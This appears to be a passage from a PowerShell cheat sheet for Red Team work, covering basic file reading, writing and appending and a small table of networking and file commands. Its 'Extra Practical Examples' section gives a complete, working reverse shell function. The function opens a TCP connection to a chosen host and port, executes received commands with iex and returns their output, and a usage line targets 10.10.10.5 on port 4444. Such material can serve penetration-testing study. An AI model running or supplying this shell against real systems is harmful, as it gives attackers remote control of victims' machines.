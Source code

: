```powershell
---

## 📌 File Handling

Handling files is critical for Red Team operations (e.g., writing logs, storing results).

### Read a File



`$content = Get-Content -Path "C:\temp\wordlist.txt" foreach ($line in $content) {     Write-Output $line }`

### Write to a File


`"Scan complete!" | Out-File -FilePath "C:\temp\log.txt"`

### Append to a File


`"New Entry" | Out-File -FilePath "C:\temp\log.txt" -Append`

---

## 📌 Extra Practical Examples

### Create a Simple Reverse Shell


`function Start-ReverseShell {     param ($ip, $port)      $client = New-Object System.Net.Sockets.TCPClient($ip, $port)     $stream = $client.GetStream()     [byte[]]$bytes = 0..65535|%{0}      while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {         $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)         $sendback = (iex $data 2>&1 | Out-String )         $sendback2 = $sendback + "PS " + (pwd).Path + "> "         $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)         $stream.Write($sendbyte,0,$sendbyte.Length)         $stream.Flush()     }      $client.Close() }  # Usage # Start-ReverseShell -ip "10.10.10.5" -port 4444`


---

# 📚 Useful Commands

|Command|Purpose|
|---|---|
|`Test-Connection`|Ping targets|
|`Invoke-WebRequest`|Send HTTP requests|
|`Get-Content`|Read files|
|`Out-File`|Write output to files|
|`New-Object System.Net.Sockets.TCPClient`|Create TCP client|
